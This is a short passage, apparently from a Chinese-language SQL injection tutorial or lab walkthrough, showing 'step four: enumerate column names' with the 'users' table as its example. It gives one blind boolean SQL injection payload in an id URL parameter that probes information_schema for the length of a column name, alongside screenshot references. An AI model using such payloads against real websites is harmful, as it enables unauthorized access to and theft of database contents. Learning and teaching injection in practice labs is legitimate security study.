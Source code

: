 ![image-20250904020122773](images/image-20250904020122773.png)

------

## 🔎 第四步：枚举列名

##### 上帝视角以 `users`   举例

```
?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))=8 --+
```

![image-20250904020329376](images/image-20250904020329376.png)
